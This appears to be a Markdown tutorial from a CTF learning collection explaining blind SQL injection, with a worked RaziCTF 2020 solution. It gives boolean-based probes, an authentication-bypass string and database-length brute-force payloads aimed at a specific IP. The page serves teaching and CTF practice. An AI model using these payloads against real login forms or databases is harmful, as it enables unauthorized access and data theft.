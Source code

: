# SQL Injection: Blind SQL Injection

## Introduction

Blind SQL Injection is a type of SQL injection attack where the attacker cannot see the result of the query directly. Instead, they infer information from the application's behavior, such as differences in response times or error messages. This method is useful when error messages are not displayed, but the application still processes the injected SQL commands.

## Table of Contents

- [SQL Injection: Blind SQL Injection](#sql-injection-blind-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Blind SQL Injection vulnerabilities, pay attention to subtle differences in application responses. Indicators include:

1. **Behavior Testing:** Entering SQL syntax that does not produce visible errors but causes changes in application behavior, such as differences in response times or content.
2. **Boolean-based Testing:** Using boolean conditions (true/false) to determine the existence of a vulnerability.
3. **Time-based Testing:** Using time delays (e.g., `SLEEP` function) to measure response times and infer database information. (More on this in [here](./time_based_blind_injections.md))

Example:
```plaintext
http://example.com/item.php?id=1 AND 1=1 -- (Normal response)
http://example.com/item.php?id=1 AND 1=2 -- (Different response)
```
 or maybe a form
 ```
 Product ID: A97HY  (Normal response)
 Product ID: true --  (Different response)
 ```

## Code/tools/websites

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites
>TBA

## Sample problem

### Problem Statement
This is based on a real CTF question, from the RaziCTF 2020.
In this question you are given a login page and a `/login` endpoint we can post credentials to. When trying to log in it just says `You are not allowed to login` which seems quite odd. 
```
http://130.185.122.155:8080/login 
```
Identify if the application is vulnerable to Blind SQL Injection.
After thic you need to login and get the length of the database.

### Solution
1. Test for SQL injection vulnerability using boolean-based testing:
   ```sql
   http://130.185.122.155:8080/login AND 1=1 -- (Normal response)
   http://130.185.122.155:8080/login AND 1=2 -- (Different response)
   ```


2. Use what we learnt in authentication by-pass to login.
   ```SQL
   http://130.185.122.155:8080/login " ' or 1--"
   ```

3. Use boolean-based payload to determine the length of the database name (`bruteforce using a script`):
   ```SQL
   http://130.185.122.155:8080/login AND LENGTH(database())=1 -- (False)
   http://130.185.122.155:8080/login AND LENGTH(database())=2 -- (False)
   .
   .
   .
   http://130.185.122.155:8080/login AND LENGTH(database())=23 -- (True)
   ```
The last part (3) is out of scope for the current topic but is added here becuase many times you need a combination of techniques to solve a question.
## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Blind SQL Injection exploits differences in application behavior to infer database information without directly viewing the results. Identifying and exploiting these vulnerabilities requires careful observation and systematic testing. Proper input validation and error handling can mitigate such attacks, enhancing web application security.